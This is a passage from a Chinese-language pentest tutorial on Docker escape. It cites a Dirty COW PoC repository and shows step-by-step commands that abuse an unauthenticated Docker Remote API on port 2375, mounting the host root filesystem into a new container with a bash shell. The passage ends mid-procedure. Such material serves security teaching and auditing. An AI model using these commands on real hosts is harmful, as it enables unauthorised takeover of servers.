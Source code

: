 ![image-20201209201050084](assets/1700701638-86ee4cb2cd19da506a0d894d4607ee40.png)

#### 脏牛

利用漏洞章节处的脏牛漏洞提权也可以达到逃逸目的，这里不重复演示。  
POC 地址：  
[https://github.com/scumjr/dirtycow-vdso](https://github.com/scumjr/dirtycow-vdso)

### 未授权访问

当默认端口为 2375 的 Docker Remote API 对外未授权开放时，攻击者可以利用该漏洞进行 getshell。  
未授权测试过程：  
获取所有 images 列表：

```plain
curl http://host:2375/containers/json
```

获取运行中的容器：

```plain
docker -H tcp://host:2375 ps
```

getshell 过程：  
获取镜像：

```plain
docker -H tcp://host:2375 images
```

根据镜像创建容器，把宿主机根目录挂载到容器中：

```ruby
docker -H tcp://host:2375 run -it -v /:/mnt/ image_id /bin/bash
```

创建容器后没自动进入容器的话，可以利用 ps 查看创建容器的 CONTAINER ID：

```plain
docker -H tcp://host:2375 ps
```
